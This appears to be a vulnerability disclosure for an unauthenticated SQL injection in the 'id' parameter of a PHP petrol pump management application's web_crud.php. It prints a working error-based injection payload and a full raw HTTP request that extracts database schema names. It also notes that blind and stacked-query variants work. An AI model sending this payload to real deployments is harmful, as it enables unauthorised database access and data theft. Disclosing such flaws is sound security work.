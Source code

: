 # Petrol pump management software free download - SQL injection vulnerability

### You do not need to log in to the website to remotely trigger SQL injection vulnerabilities!

Supplier:https://www.sourcecodester.com/php/17180/petrol-pump-management-software-free-download.html

http://localhost/admin/app/web_crud.php   -----> POST ----->  'id' can control some id parameters

Payload:update3=yes&encryption=1&host=1&port=1&username=1&password=2&email=1&id=1' AND (SELECT * FROM(SELECT COUNT(*),CONCAT(0x01,(SELECT MID((IFNULL(CAST(schema_name AS NCHAR),0x20)),1,54) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 6,1),0x00,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- 

```r
POST /admin/app/web_crud.php HTTP/1.1
Host: xxxxxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=atk3ii6u9he5ppvnhatlt59e92
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 298

update3=yes&encryption=1&host=1&port=1&username=1&password=2&email=1&id=1' AND (SELECT * FROM(SELECT COUNT(*),CONCAT(0x01,(SELECT MID((IFNULL(CAST(schema_name AS NCHAR),0x20)),1,54) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 6,1),0x00,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- 
```

![1](https://github.com/xuanluansec/vul/blob/main/vul/img/8.png)

Running this payload will reveal the name of the database. This indicates that SQL injection vulnerability has been successfully executed in the database, allowing for database querying. Apart from error-based injection, there also exists time-based blind injection, boolean-based blind injection, and stacked query injection vulnerabilities.

![2](https://github.com/xuanluansec/vul/blob/main/vul/img/10.png)

The parameter "id" received on line 225 of the web_crud.php file in the "admin/app" directory of the website is vulnerable to being controlled by guest users, and then it is executed on line 227, causing a SQL injection vulnerability.

web_crud.php
![2](https://github.com/xuanluansec/vul/blob/main/vul/img/9.png)
